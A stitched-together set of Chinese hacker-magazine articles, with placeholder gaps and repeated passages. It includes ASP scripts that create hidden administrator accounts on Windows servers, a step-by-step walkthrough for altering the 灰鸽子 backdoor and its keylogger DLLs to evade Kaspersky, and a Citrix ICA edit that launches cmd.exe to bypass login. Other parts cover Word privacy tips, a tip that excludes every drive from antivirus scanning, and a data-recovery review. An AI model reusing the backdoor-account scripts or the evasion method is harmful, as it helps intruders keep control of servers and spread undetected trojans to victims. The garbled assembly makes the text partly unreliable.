
比如我们要看远程机器上开的服务（准备好 pskill，把防火墙先停了），代码如下：

```asp
<%
Set ComputerObj = GetObject("WinNT://127.0.0.1")
ComputerObj.Filter = Array("Service")
For Each Service in ComputerObj
  Response.Write "Service display name = " & Service.DisplayName
  Response.Write("<BR>")
  Response.Write "Service account name = " & Service.ServiceAccountName
  Response.Write("<BR>")
  Response.Write "Service executable = " & Service.Path
Next
%>
```

执行后返回结果如图 1 所示。怎么样？服务全部出来了吧？连服务对应的路径都有，比任务管理器还好用。

“你好像还没把你刚才做的事情说清楚啊？”OK，其实学校服务器上的 ASP 程序代码也很少，从添加账户到提升权限不过十几行。


```asp
<%
Set onlineServer = GetObject("WinNT://127.0.0.1")
Set newuser = onlineServer.Create("user", "test2")
NewUser.SetPassword "test2"
NewUser.FullName = "Test2 test"
NewUser.Description = "testuser"
NewUser.SetInfo
Set oDomain = GetObject("WinNT://./")
Set oGroup = oDomain.GetObject("Group", "administrators")
oGroup.Add ("winnt://test2")
Response.Write "添加 test2 用户成功"
Response.Write "添加 test2 管理员成功"
Set oDomain = Nothing
Set oGroup = Nothing
%>
```

看看效果吧，如图 2、图 3 所示。


查看当前机器所有账户可以使用如下代码。

“匿名访问”，话一出口朋友一本巨厚的牛津字典准备要拍过来了，我只能继续往下说。

```vb
Set onlineServer = GetObject("WinNT://127.0.0.1")
onlineServer.filter = array("user")

For Each member In onlineServer
    Response.Write member.name & "--" & member.FullName & "<br>"
Next
Set onlineServer = GetObject("WinNT://127.0.0.1")
```

如果一定要用到此类访问的话，可以写一些与其对抗的ASP代码，比如以下是返回计算机上本地管理员组的所有成员，你可以加上自动刷新，一发现入侵就跳出个对话框好了：

```vb
Set objNetwork = CreateObject("Wscript.Network")
strComputer = objNetwork.ComputerName
Set objGroup = GetObject("WinNT://" & strComputer & "/Administrators,group")
For Each objUser In objGroup.Members
    Response.Write objUser.Name
Next
```

结果如图4所示。


图4

发现不是本地管理员用户账号和域管理员账号就删掉的代码（非Administrator就干掉）：

```vb
Set objNetwork = CreateObject("Wscript.Network")
strComputer = objNetwork.ComputerName
Set objGroup = GetObject("WinNT://" & strComputer & "/Administrators,group")
For Each objUser In objGroup.Members
    If objUser.Name <> "Administrator" And objUser.Name <> "work\Administrator" Then
        objGroup.Remove(objUser.ADsPath)
    End If
Next
```

话说回来，在网站权限提升的方面这个用处并不大，只能用于特殊情况下对服务器权限造成有效攻击，网上有朋友写过一段这样的代码：

```asp
<%@codepage=936%><%Response.Expires=0
On Error Resume Next
Session.Timeout=50
Server.ScriptTimeout=3000
Set lp=Server.CreateObject("WSCRIPT.NETWORK")
oz="WinNT://"&lp.ComputerName
Set ob=GetObject(oz)
Set oe=GetObject(oz&"/Administrators,group")
Set od=ob.Create("user","WekweN$")
od.SetPassword "WekweN"
od.SetInfo
Set of=GetObject(oz&"/WekweN$,user")
oe.Add(of.ADsPath)
Response.Write "WekweN$ 超级账号建立成功!"%>
```

一段报告本地计算机上来宾账户状态的脚本：

```vb
Set objNetwork = CreateObject("Wscript.Network")
strComputer = objNetwork.ComputerName
Set objUser = GetObject("WinNT://" & strComputer & "/Guest")
If objUser.AccountDisabled Then
    Response.Write "guest 账户未使用."
Else
    Response.Write "guest 用户被使用."
End If
```

检查你计算机上是否有文件被共享：

```vb
strComputer = "."
Set objWMIService = GetObject("winmgmts:\\" & strComputer & "\\root\\cimv2")
Set colShares = objWMIService.ExecQuery("Select * from Win32_Share")
For Each objShare In colShares
    Response.Write "Name: " & objShare.Name
    Response.Write "Path: " & objShare.Path
    Response.Write "Type: " & objShare.Type
Next
```

说是新的漏洞可将普通用户提升为管理员，可是我经过测试发现没有成功，在非主流的攻击方法中一般是这样使用的……（后续为正文叙述与对话内容）

就这样就行了吗？我觉得用它写个IIS后门非常不错……（后续为正文叙述与对话内容）

蝴蝶以前给大家送上的免杀的WinShell怎么样了？好用吗？大家可不要用它做太多坏事哦！本期我们推出国产经典后门灰鸽子的修改方法，让大家享受一下国内顶尖后门的魅力！不过大家工具倒是会用了，修改的方法会了吗？我们可是一直秉承着“授人以鱼不如授人以渔”的思想哦！希望有一天每个人都能自己修改各种后门木马！

- 适合读者：黑客迷、入侵爱好者、程序员
- 前置知识：CCL的基本使用，汇编阅读能力

### 修改特征码打造成免杀后门

#### 之灰鸽子篇

文/图：tankaiha[NE365][FCG]

## DLL释放型后门的特征码修改

各位兄弟年过得还好吧？上期给大家提供的免杀后门好用吗？这一期讲什么呢？嘿嘿，这次来个难度大一点儿的——灰鸽子的特征码修改。什么是灰鸽子就不用我说了吧？先打个预防针，这次修改过程可不像WinShell那么简单！不过学会了修改鸽子的话，大多数流行的DLL释放式的后门就全是小CASE了。废话不说，直接进入正题。

#### 修改过程概述

灰鸽子是一款非常不错的远程控制软件，使用者很多，因此是各大杀软的必杀对象。较新的鸽子主要功能代码用DLL实现，这增加了程序的隐蔽性，但同时也加大了修改特征码的难度。对于全部功能由一个EXE文件完成的程序，比如鸽子的老版本和WinShell之类，只需要修改EXE本身即可；而对于运行时会释放DLL文件的版本，不但EXE文件本身有特征码（通常在代码段中），而且DLL中也含有大量特征码。因此，修改的大致过程为：导出DLL，修改DLL，DLL导入EXE，修改EXE。下面以灰鸽子1.05版本加壳服务端（卡巴斯基报毒）为例，详细地讲解修改过程。

## DLL文件的导出

拿到服务端文件，老规矩，先检测，卡巴报警发现Backdoor.Win32.Feutel.a。下面导出服务端包含的DLL，灰鸽子官方教程里用的是ResHacker，而我更偏向于使用PE Explorer。打开服务端文件，点击工具栏里的“Resource Viewer/Editor”，会显示资源树状结构，文件中RCData->MAINDLL就是我们需要导出的文件（如图1所示）。可以看到PE Explorer已经自动判断出该资源是一个PE文件，在MAINDLL图标上单击右键，选择“save resources as”即可导出MAINDLL资源。MAINDLL中还有两个DLL需要导出，分别叫HOOK和GETKEY（如图2所示）。分别导出这两个DLL后再检测，报毒为Backdoor.Win32.Feutel.a和Trojan-PSW.Win32.KeyLogger.c。


MAINDLL的代码段中含有的特征码，完毕后将其导入原版服务端EXE文件，最后修改EXE文件代码段中含有的特征码！可不要打退堂鼓，让我们一步步来。

## 修改HOOK

这是我们第一次修改DLL，但DLL文件格式和普通EXE文件其实没有差别，都是标准PE文件。思路仍旧是手动定位确定特征码大体范围，自动定位确定精确位置。打开CCL设置为手动，生成300个文件，然后对整个文件进行替换，待全部文件生成后用卡巴对目标文件夹检测并删除报毒文件，最终结果如下。

| 序号 | 起始偏移 | 大小 | 结束偏移 |
|---|---|---|---|
| 0001 | 00000000 | 000002B8 | 000002B8 |
| 0002 | 000140D0 | 000002B8 | 00014388 |
| 0003 | 0001479C | 0000015C | 000148F8 |

入检测段时将0002和0003的数据添加到待检测栏里，如图3所示。


图3

如果你细心的话会发现这两个偏移其实都在CODE段中，这正说明大多数特征码的位置都存在于代码段里。单击确定，进行自动检测，过程就不说了，详细的操作动画以前都有，最终得到如下定位结果：

| 序号 | 起始偏移 | 大小 | 结束偏移 |
|---|---|---|---|
| 0001 | 00014193 | 00000015 | 000141A8 |
| 0002 | 000141A9 | 0000002A | 000141D3 |
| 0003 | 000141D5 | 0000002A | 000141FF |
| 0004 | 00014200 | 0000002A | 0001422A |
| 0005 | 0001422C | 0000002A | 00014256 |
| 0006 | 00014257 | 0000002A | 00014281 |
| 0007 | 00014283 | 00000015 | 00014298 |
| 0008 | 0001479C | 00000015 | 000147B1 |

还真不少，共有8处。修改哪里呢？我的经验是尽量修改代码，避免修改字符串和数据，因为修改后者必须将每一处调用它的指令都做改动，且在不确定具体含义的情况下很容易出错，不推荐。

先看第一处，用IDA对HOOK进行反汇编，然后找到00014193处，也就是内存偏移00414D93（这里可以用我写的小工具：偏移量转换器，输入文件偏移可以自动计算出内存偏移），这里的代码如下：

```asm
CODE:00414D91  dd offset off_413FB0
CODE:00414D95  dd 64616D0Bh, 65646F43h, 6B6F6F48h
CODE:00414DA1  align 4
```

很显然，这是一些数据，我们甚至不知道它的意义，要修改真是无从下手。于是看第二处，代码如下：

```asm
CODE:00414DAD  xor   edx, edx
CODE:00414DAF  mov   [ebp+var_18], edx
CODE:00414DB2  mov   [ebp+var_8], edx
CODE:00414DB5  mov   ebx, eax
CODE:00414DB7  xor   eax, eax
CODE:00414DB9  push  ebp
CODE:00414DBA  push  offset loc_414F97
CODE:00414DBF  push  dword ptr fs:[eax]
```

```asm
CODE:00414DC2  mov   fs:[eax], esp
CODE:00414DC5  xor   eax, eax
CODE:00414DC7  push  ebp
……
```

看来第二处全部是汇编指令，就修改它了。用什么方法呢？以前我介绍过“指令顺序变换”和“万能跳转”两种方法，当然，能用第一种时尽量用。这里我们也采用变换指令顺序的方法。注意加黑的指令，我们就改变这两句的顺序。修改文件我还是习惯用OllyDbg，因为可以直接进行指令级的操作，你也可以用二进制编辑软件。

用OD打开HOOK，OD会提示“打开的是DLL，是否用LoadDLL进行加载”，点确定。然后来到003E4DA7处，这里又有问题了，为什么刚才用IDA打开时，位置在00414DA7而现在却变成003E4DA7呢？这是因为DLL加载时，加载基址是可变的。给大家讲一个在OD中判断加载基址的方法。单击OD工具栏中的M，会显示出当前进程内存中的所有模块，如图4所示。


图4

根据名称找到加载我们的DLL的位置，从图4中可以看到00400000已经被LoadDLL给占据了，因此HOOK只能被分配到003D0000了。相应地，在IDA中的地址需要减去一个差值（00400000-003D0000）才能得到OllyDbg中的地址。将黑体的指令进行顺序调换，修改如下：

```asm
003E4DB7    55      push ebp
003E4DB8    33C0    xor eax,eax
```

然后保存修改，再用卡巴斯基检测一下修改后的HOOK文件，果然HOOK已经免杀了，是不是很神奇。仅仅修改了3个字节就搞定了（见光盘03，LL_SW.Win32.KeyLogger.c）。

## 修改GETKEY

下面该第二个DLL了，过程和修改HOOK的一样，就不详述了，简述一下过程：手动定位的结果如下（生成300个文件）：

| 序号 | 起始偏移 | 大小 | 结束偏移 |
|---|---|---|---|
| 0001 | 00000000 | 000002BC | 000002BC |
| 0002 | 000095B5 | 0000015E | 00009713 |
| 0003 | 00009DE9 | 000000AF | 00009E98 |

定位结果表（序号 / 起始偏移 / 大小 / 结束偏移），共7处。

共有7处，还挺多的。原理一样，尽量修改汇编指令，避免字符串和数据。这一次运气不错，第0001段就是汇编指令：

```asm
003DA221  68 34A63D00      push RC_Data...
003DA226  8D95 ECFEFFFF    lea edx,dword ptr ...
003DA22C  8B45 F8          mov eax,dword ptr ...
003DA22F  E8 68FEFFFF      call RC_Data...
```

相信修改这几句指令已经难不倒你了，将前3句的顺序调换一下：

```asm
003DA221  68 34A63D00      push RC_Data...
003DA226  8B45 F8          mov eax,dword ptr ss:[ebp-8]
003DA229  8D95 ECFEFFFF    lea edx,dword ptr ss:[ebp-114]
003DA22F  E8 68FEFFFF      call RC_Data...
```

保存文件。再次用卡巴斯基检测，呵呵，又免杀了。

## 导入HOOK和GETKEY

OK，两个DLL修改完毕，下面就是将修改过的HOOK和GETKEY导入MAINDLL了。这里有两种方法：一种是二进制编辑软件直接改字节；二是借助PE Explorer进行替换。这里使用第二种方法。

用PE Explorer打开刚才导出的MAINDLL，在资源中分别将GETKEY和HOOK导入。右键选择“Edit Resource”，然后打开修改过的DLL，确认即可，更新后别忘了保存。


## 修改MAINDLL

这时用卡巴斯基对MAINDLL进行检测，仍然报警。前文说过MAINDLL特征码有两处：一处在HOOK和GETKEY两个DLL中，另一处在MAINDLL本身代码段中。现在DLL中的特征码已改完，接下来修改本身特征码。

定位结果表（2条）：0001 起始00000000 大小00000B4E；0002 起始00095C98 大小00000B4E。

第0001号肯定无用，因此自动检测时输入95C98开始、大小B4E的段即可。自动定位结果如下：

定位结果表（7条）：0001~0007，对应偏移从00095CC5到00095DE9。

修改时选择第0006段，这里基本没有冲突，因此直接用偏移量转换器得到对应内存偏移。代码如下：


```asm
131D69B8  8D55 F8      lea edx,dword ptr ss:[ebp-8]
131D69BB  8BC6         mov eax,esi
131D69BD  E8 02EDFBFF  call MAINDLL...
...
131D69C2  8D45 FC      lea eax,dword ptr ss:[ebp-4]
131D69C5  8B55 F8      mov edx,dword ptr ss:[ebp-8]
131D69C8  E8 8BE2F6FF  call MAINDLL...
```

注意黑体的指令，将其调换顺序即可：

```asm
131D69C2  8B55 F8      mov edx,dword ptr ss:[ebp-8]
131D69C5  8D45 FC      lea eax,dword ptr ss:[ebp-4]
```

修改完毕后保存，再次检测MAINDLL即可免杀。至此所有DLL修改完成，总共改动6条指令。经验是多尝试、多总结，关键是不能改变原程序的指令运行结果。

#### 修改服务端

先导入MAINDLL。同样的方法，用PE Explorer将修改过的MAINDLL导入服务端中……如果你用别的检测，此时的服务端仍然报警的话，还需要对服务端中代码段里的特征码进行修改。

#### 测试

修改完毕，打开虚拟机测试。我在Windows 2000+SP4、Windows XP+SP1和Windows XP+SP2中均运行了服务端，没有任何报错，运行后服务端文件自动删除。

但是我的老爷机实在是太慢，而且自己对肉鸡不太感冒，所以没有对具体功能进行测试，有兴趣的朋友可以试一试。

#### 结语

灰鸽子的免杀就是这样，感觉怎么样？工作量还是挺大的吧？当然，这时的鸽子只能免俄罗斯人的卡巴斯基……最后，你在修改特征码的过程中有什么心得，欢迎来vxer.net与我交流。

**蝴蝶** Word是最常用的一种文字处理程序……任何人只要稍微懂一些计算机操作，就能将你的私人秘密日记、计划书、绝密档案等资料窃取并公开！

- 适合读者：Word使用者
- 前置知识：无

## 防泄密，从Word开始

文/图 小具 阿良 刘雁


Word是我们经常使用到的Office组件……通过查看DOC文档的属性，我们可以从“摘要”标签页内看到DOC文档的作者、创建时间、最后编辑时间、最后保存者及公司名称等私人信息……


如何避免Word文档泄露我们的隐私呢？Doc Scrubber这个软件就是我们的好帮手。使用它，我们可以很容易地把一个或多个DOC文档中的隐私内容全部或部分清除掉。

## 让DOC不再泄密

- 软件名称：Doc Scrubber
- 软件大小：820KB
- 软件版本：1.1
- 运行平台：Windows 9X/NT/2000/XP
- 软件性质：免费
- 下载地址：http://www.javacoolsoftware.info/downloads/docscrubbersetup.exe

在下载软件并安装后，双击桌面上的“Doc Scrubber”图标启动程序……其中“Analyze”按钮是用来分析DOC文档中含有哪些隐藏信息……

#### 三键同按让文档私用

在多人共用的电脑中，为了防止别人看到我们的秘密文档，常见做法是设置隐藏属性或加密。文中介绍了一种通过快捷键实现 Word 文档内容“隐藏/显示”切换的方法：按下指定三键后可让内容暂时隐藏，再按同样组合键可恢复显示。

- 1. 启动 Word，执行“工具→宏→录制新宏…”，将宏命名为 `Hidden`，保存到“所有文档（Normal.dot）”。
- 2. 在“自定义键盘”中为该宏绑定快捷键（示例为 `Alt+Ctrl+H`），关闭对话框进入录制状态。
- 3. 录制时执行“编辑→全选”，再执行“格式→字体”，勾选“隐藏文字”，确定后停止录制。
- 4. 再录制一个宏 `Show`（可绑定 `Alt+Ctrl+S`），操作与上类似，但在字体设置中取消“隐藏文字”勾选，用于恢复显示。

> 注：文中的 `Alt+Ctrl+H` 仅为示例，可自行设置不易被猜到的组合键。  
> 在该窗口中有三种模式：`Scrub a single Word document`、`Scrub all Word documents in a specific folder`、`Scrub selected Word documents in a specific folder`，分别对应清除单个文档、清除文件夹内全部文档、清除文件夹内指定文档的隐藏信息。

- 2. 选中 `Save scrubbed file over original` 可直接覆盖原文件并清除隐藏信息；不选则生成新的清理后文件（通常带 `SCRUBBED` 标记）。
- 3. 选择清除方式后点击 `Next`，通过 `Browse for file(folder)` 选择目标文件或文件夹，再继续下一步。
- 4. 在隐藏信息清除选项中可按需勾选（建议全选），如图4所示；可设置 `Reset Author to Specified` 与 `Reset Company to specified` 来重置作者与公司信息。
- 5. 完成后再次查看文档属性“摘要”等标签页，可见相关隐藏信息已被清除。

> 前面分别录制了 Hidden 宏和 Show 宏，Hidden 宏的功能是将文档内容全部隐藏后保存，Show 宏用于取消隐藏、还原内容。录制时会把字体、字号、下划线、上下标等属性一并写入宏，运行后可能改变原有格式，所以需要对 Hidden/Show 宏代码做必要修改。

- 5. 执行“工具→宏→宏…”，在宏窗口中找到 Hidden 和 Show，分别进入编辑；删除字体、字号等格式性语句，仅保留隐藏/显示相关语句；保存到 Normal。之后可用快捷键运行：`Alt+Ctrl+H` 隐藏并保存，`Alt+Ctrl+S` 显示内容。

使用快捷键运行 Hidden/Show 宏可提升操作便捷性和隐蔽性。该方法对含有表格、图片、文本框、超链接等多种对象的 Word 文档同样有效。

## OnSign让文档传输更安全

在通过邮件发送 Word 文档时，常见担忧是文件在传输中被拦截或篡改。onSign 可为普通用户提供免费的数字签名能力，为邮件和 Word 文档附加可验证签名，用于确认文档完整性与来源。

- 1. 启动“向导”：下载安装 onSign 后，在 Word/Outlook 中通过 `onSign Signature Wizard` 进入签名设计向导。


- 2. 签名设计：在 `Input Device Selection` 页面选择输入设备（如扫描仪、传真、鼠标等），可勾选显示全部设备；随后在 `Input Signature` 页面手写签名并设置签名文件名与密码。

可显示更多输入设备，最简单且个性化的方式是使用鼠标进行签名输入。


继续下一步到 `Input Signature`，在签名区域输入名字或标志，再设置签名文件名和密码并确认。


- 3. 签名的使用：在 Word 编辑完成后点击工具栏“Sign”，选择 `Sign Now` 并输入密码，数字签名即插入文档。写邮件时也可通过“插入→签名”或 `Select` 选择已设置的签名文件。


- 4. 签名鉴定：收件方需安装 onSign 才能验证。若显示 `Email is authentic` 表示签名有效、内容未改；若显示 `This Email was modified`（并伴随红色禁止标志）则表示签名失效，文件可能被篡改。

通过以上方法，无论本地文档还是网络传输文档，安全性都可明显提升。

蝴蝶：虚拟工作平台已开始从单纯的通过网页传播信息，变化到利用 Internet、Intranet、Extranet 的基础建设来达到合作、交易及知识管理的目的。这项新的网页环境最基本需求之一便是安全的配置。重要的营业应用软件，不相容的整合导致无法即时分享重要的信息，造成时间、金钱及附加价值的损失。这是为什么成千上万个大型企业团体选择在全球具有领导地位的 Citrix 的主要原因。下文介绍的是 Citrix 中不可忽略的一个因素——安全。

**适合读者：** 网管、入侵爱好者  
**前置知识：** 无


原著 / Brian Madden　翻译 / www417

Citrix 系统是一款广泛流行的远程桌面控制程序，类似于 Microsoft 的 Terminal Services，但是原理不同。Microsoft Terminal Services 使用的是 RDP（Remote Desktop Protocol）协议，而 Citrix 使用的是 ICA（Independent Computing Architecture）协议。

在本文中，我将简要介绍 Citrix 是怎样工作的、如何更好地配置 Citrix 使用者的权限。需要事先声明的是，作者是 Citrix MetaFrame XP 的高级技术顾问之一，但并不是 Citrix 的管理员。以下有些想法并不完美，不过本文的重点并不是这些。请根据具体情况理解，如果有错误可以联系 wirepair@roguemail.net。


> DMZ（De-Militarized Zone）非军事区，是防火墙的一个特性。它可以使某台特定计算机向互联网开放，有些应用程序需要开通多个 TCP/IP 接口，而 DMZ 就可以为微机实现这些功能。

### Citrix 的工作方式

- 1. Citrix MetaFrame
- 2. Citrix NFuse / Citrix 安全网关

我列在这里的是几种 Citrix 可能被用到的解决方式。

Citrix MetaFrame 有 3 个不同的版本：XPs、XPa 及 XPe，分别适合不同的环境使用。其中 XPe 是完全安全版，包括一些不同于其他版本的管理选项。XPa 和 XPe 则稍微少一点。此篇文章中，我们只讨论 XPe（其中的大部分功能都能在其他版本上应用）。Citrix 默认使用 1494 端口，并且只和使用了 Citrix ICA 加密协议的客户端通信。

Citrix NFuse 允许管理员锁定程序而只能通过 Web 浏览器通信。Citrix NFuse 默认安装在 IIS 5.0 上，但是在这篇文章中，我们将试着把它安装在 Apache 上。当然也许读者对在 IIS 5.0 上的安装/配置/管理 Citrix NFuse 更感兴趣，所以我们稍后会涉及到这个问题。下面谈到的应用若没有特别指出则全部使用 SSL 128 位加密。

Citrix NFuse 默认安装情况下的远程权限规则允许管理员执行 Citrix 安全网关。如果管理员适当地配置了 NFuse，远程用户将不能直接通过 Citrix Server，所有通过 Citrix NFuse 服务器和安全网关的连接将被过滤，如图 1 所示。

### 从攻击者的角度思考问题

根据图 1，我们发现使用者不能获得一个和 Citrix Server 直接的连接，但是可以通过 DMZ 连接到 Internal Network。

在默认安装的 NFuse 并且没有安全网关配合的情况下，使用者接触到 NFuse Web Server。之后一旦发出了请求并确认，使用者将获得一个直接连接 Citrix Server 的通道。你可以看出这个有个问题：恶意使用者可以在和 Citrix Server 连接好的情况下，再进行先前的请求扫描，通过搜集请求列表之后建立自己的 ICA 文件，里面包含了他们指定的信息。这就意味着，如果当前的情况是在网络边界，就有两个漏洞可以通过防火墙：一个是 IIS，一个是 Citrix。

ICA 文件是一种基于文本结构的文档，包含所有的配置信息。这个文件一般是给最终用户使用，在安装完 Citrix 客户端以后，双击这个文件就可以自动连接 ICA 文件中指定的服务器。

如果 NFuse 被使用的情况下通常就不需要 ICA 文件了。假设 A 用户打开 Web 浏览器来到 NFuse Web 服务器，将使用他在 NT 域中的账号。如果成功登录，A 用户将得到一张在 Citrix Farm 上有权使用的程序列表。

有多种方法可以得到运行在 Citrix 主机上的远程桌面。最近 Ian Vitek 发布了一些很有用的 PERL 脚本工具。我最常用的扫描 Citrix 请求的工具可以在这里下载：http://www.cqure.net/tools01.html

这个工具列出了远程机器上允许的请求，得到这些列表之后我们就可以通过修改 ICA 文件中的请求信息。在这之后，你就可以尝试针对一些容易猜到的账号进行攻击。我的经验是尝试攻击一些专门用来做备份工作的账号。

> 如果上面的程序在你的机器上不能很好地工作，你可以试试这个：http://sh0dan.org/files/pubappbrute.tar.gz。

假设你已经做好一切准备，只是没有好运气的话，你可以尝试 GUEST 账号，虽然通常情况下 GUEST 没有足够的登录权限。从 .ICA 文件入手来看。

```ini
[WFClient]
Version=2
TcpBrowserAddress=ip,ip,ip,ip

[ApplicationServers]
word=

[word]
Address=word
InitialProgram=#word
ClientAudio=Off
Compress=On
TWIMode=On
DesiredHRES=800
DesiredVRES=600
DesiredColor=4
TransportDriver=TCP/IP
WinStationDriver=ICA 3.0
```

通过分析看来 Citrix 在运行时似乎寻找了 `[word]` 中 `InitialProgram` 的数据。如果我们把这个数据修改成 `cmd.exe` 或 `explorer.exe` 会怎么样？幸运的是我们真的可以指定运行这个程序，从而绕过登录检查。只要确认程序有效存在就可以运行它。这样我们就可能获得远程 Shell；如果运行的是 `explorer.exe`，甚至可能打开真正的桌面。即使以 Guest 身份进入系统，也可能运行某些管理员工具，这是一个严重漏洞。若管理员使用 NFuse 和 Citrix Secure Gateway 过滤了防火墙连接，修改 ICA 文件可能失效，但仍有多种机会获取远程桌面，例如借助远程办公环境、启动菜单、IE 浏览器、帮助主题跳转 URL 等方式。类似方法还有很多，如进程管理器启动新进程、程序中的“打开→浏览”获取 Shell，或浏览远程机器默认配置目录。

```text
NT4: %systemroot%\profiles\username\Application Data\
Windows 2000: C:\Documents and Settings\username\Application Data\
```

将里面的 .ICA 文件复制过来，覆盖你相应目录下的文件。之后打开 Citrix Program Neighborhood，你会发现你有权向所有已经连接的用户发出修改密码的消息。

### 安全的 Citrix

还好这里有很多资料来提醒管理员加固 Citrix，我曾经花费几周时间试图找出一个应用与安全相平衡的安全策略。

- 1. 首先正确配置 NFuse / Citrix Secure Gateway。
- 2. 确定 IIS / Apache 已经打了最新补丁，并且在 DMZ 的保护中，或者使用 NTLM 认证。
- 3. 如果可能，要求远程用户使用 SecureID 认证方式。
- 4. 使用其他浏览器取代 IE。
- 5. 建立一个组，把所有 Citrix 用户放到这个组里面，禁止他们访问 `cmd.exe`、`ftp.exe`、`tftp.exe`、`rcp.exe`、`net.exe`、`command.com`、`iexplorer.exe` 等可能对系统有危害的权限（在安全与应用的平衡之间选择）。
- 6. 给你的 Citrix 打上最新补丁。
- 7. 禁止 Winhelp32 的访问，设置 Internet 选项禁止下载，禁止使用进程管理器。
- 8. 如果可能，设置 Citrix Connection Configuration → ica-tcp → client settings → 选择必须为开。

翻译完文章后发现 Citrix 系统很类似现在网吧广泛应用的虚拟桌面程序。在研究了几款网吧管理程序后发现，这类程序并非建立在系统内核基础上，很容易利用 Windows 本身机制绕过，这才是这类软件漏洞产生的根本原因。

### 让卡巴斯基的疼痛不再烦你

文 / 天下为公

目前，几乎所有人的电脑中都安装有杀毒软件，其中使用卡巴斯基的不在少数。“卡巴斯基”有个坏毛病，就是专业版在每次系统启动的时候总要提示执行全面扫描，繁琐且令人烦恼。更麻烦的是，如果启用了卡巴斯基扫描系统，接下来等待你的就是“卡巴”的慢速扫描。解决办法是：在卡巴斯基中点击“设置”→“配置手动扫描”→“高级设置”，把“排除对象列表”中将所有硬盘分区添加在扫描排除范围之外并保存。这样再执行全面扫描时会非常快，既满足启动扫描需求，也节省时间，并避免误删工具。使用卡巴斯基专业版的朋友不妨试试这个办法，让卡巴斯基的疼痛不再烦你。

适合读者：网管、信息管理员  
前置知识：无

### 国人期待——数据恢复大师测试手记

文/图 cczb1

我们在平时使用计算机的时候经常会遇到数据丢失的情况，在做数据恢复过程中，自然而然会用到数据恢复软件。目前主流的数据恢复软件中，国外软件一直处于垄断地位，如 FinalData、EasyRecovery、R-STUDIO 等，数据恢复大师 DataExplore 的出现，带给我们一个新的选择。数据恢复大师是一款功能十分强大的、提供较低层次恢复功能的数据恢复软件，只要数据没有被覆盖掉，文件就能被恢复。这款软件目前支持 FAT12/16/32、NTFS、EXT2、EXT3 等文件系统，能找出被删除、被格式化、分区表及误操作后的数据，内置有文本、十六进制、图片和网页等多种视图（可打印），可以在未恢复出文件的情况下预览文件，可浏览网络硬盘。数据恢复大师支持目前主流的存储介质。下面我们就一起来走近这款国人制作的软件。

第一块硬盘为 hd0，大小 15.99GB，分了个 NTFS 分区，大小为 3.42GB，在虚拟机为 C 盘，装有 Windows 2003；

第二块硬盘为 hd1，大小 15.99GB，分了个 FAT32 分区，大小为 3.42GB，在虚拟机为 D 盘，没有任何数据。

第三块硬盘为 hd2，大小 15.99GB，分了 E、F、G、H、I、J 六个 Linux 分区，包括 ext2、ext3、swap 分区。

在单一的情况下，如删除一个文件，或者删除、格式化一个分区，我们只需要选择“功能”菜单下的“数据（加入文件系统）”，然后按照提示选择分区就可以恢复数据，使用界面很是友好。下面我们测试比较复杂的情况。

#### 测试平台

硬件环境：VirtualPC 5.0，具体配置 3 块 15GB 虚拟硬盘；内存 300MB；CPU：P4 1.7GHz。  
软件环境：Windows 2003，红蜻蜓抓图软件，DataExplore 个人版。

我们先来看看我们的分区结构：先运行 DataExplore.exe。这款软件本身免安装，这样可以刻录到光盘使用。我们选择“功能”菜单下的“数据（加入文件系统）”就可看到硬盘的分区及文件系统如下，如图1所示。

#### 模拟案例

某黑客组织预谋对全球根 DNS 进行 DOS，该计划被存在一个名为“绝密日记.txt”的文件中。我们的任务就是当该文件被毁掉后，做取证恢复工作。下边我们就开始模拟这个案例。

首先把文件系统为 FAT32 的 3.42G 的 D 盘创建一个名字为“绝密日记.txt”的文件，文件内容为中文“今晚进攻根DNS:-->”，然后放在 5 层目录下，目录及文件内容如图2所示。


图2

然后先拷贝一些干扰数据也放在 D: 根目录下，最后把大小为 3.42GB 的 FAT32 的 D 盘格式化为大小为 3.91GB 的 NTFS 分区，然后用数据恢复大师做数据恢复。


图1

3 块虚拟硬盘，硬盘的牌子都是 cntxcorpHD，是虚拟机默认的。

第一块硬盘为 hd0，大小 15.99GB，分了个 NTFS 分区，大小为 3.42GB，在虚拟机为 C 盘，装有 Windows 2003；

第二块硬盘为 hd1，大小 15.99GB，分了个 FAT32 分区，大小为 3.42GB，在虚拟机为 D 盘，没有任何数据。

#### 测试目的

- 1. 数据恢复大师对多层目录支持情况，包括目录重建工作。
- 2. 数据恢复大师对中文文件名支持情况。
- 3. 数据恢复大师对分区转换的复杂情况的恢复情况。

#### 测试过程


图3

数据恢复大师的恢复速度非常快，4GB 的分区 4 分钟左右就可以查找丢失的数据。恢复出来的数据目录结构是以资源管理器的形式展示的，恢复结果如图4所示。


图4

选择我们的目标文件，然后右键选择“导出”，然后选择路径，我把文件恢复到了 C: 下，恢复过程完毕。核实文件内容如图5所示。


图5

测试完这款软件，我心里很是欣慰，数据恢复大师这3点都做到了，这3点是很多数据恢复软件的弱项，尤其是国外软件；这么多年从事数据恢复工作，我在数据恢复软件上的花费已经很多了，和国外那些专业软件比，国人做的这款软件一点也不逊色。不过这个软件是共享软件，还没有 UNIX/Linux 版本，不能做到跨平台使用，希望能早日看到。数据恢复大师支持文件修复功能和阵列恢复功能，不过还略显不足，希望早日完善。前几天在网上看到有些人利用这个软件内核、未经作者授权，从事商业行为，在这里也声讨一下，毕竟共享软件还需要大家的支持。

我再来介绍一些实用技巧。

- 1. 普通的删除文件／删除文件夹。简单模式下，点中你要恢复的分区，按开始搜索文件。如果你要恢复特定类型的文件，可以在加载前的高级设置里，勾上搜索 DOC 文件等，这样在搜索完成后，在左树的回收站节点下会出现相应的文件夹。
- 2. 分区被格式化，未写入大量文件。在简单模式下，点中要恢复的分区。如果是格式化前后都是 FAT32 分区，勾上“自动调整 FAT 格式化参数”；如果格式化前后的分区类型不一样或者你不能确定格式化前后的分区类型，请勾上“校验别的分区类型”，然后按开始搜索文件。
- 3. 分区被格式化，写入部分文件。如果是格式化前后都是 NTFS 类型分区，点中要加载的分区，按开始搜索文件。如果是 FAT 分区，最好点中第一层节点（HD0/HD1/HD2）字样，按开始搜索文件。
- 4. Ghost 覆盖分区。对于 NTFS 分区，简单模式下点中要恢复的分区，按开始搜索文件。如果是 FAT 分区，点中第一层节点，分析整个硬盘。也可以到专业模式下，以硬盘方式加载这个分区。
- 5. Ghost 覆盖硬盘，造成别的分区丢失。简单模式下，点中要加载硬盘（第一层节点 HD0/HD1/HD2），按开始搜索文件。
- 6. 重分区／删除分区／调整分区大小。简单模式下，点中要加载的硬盘（第一层节点 HD0/HD1/HD2），按开始搜索文件。
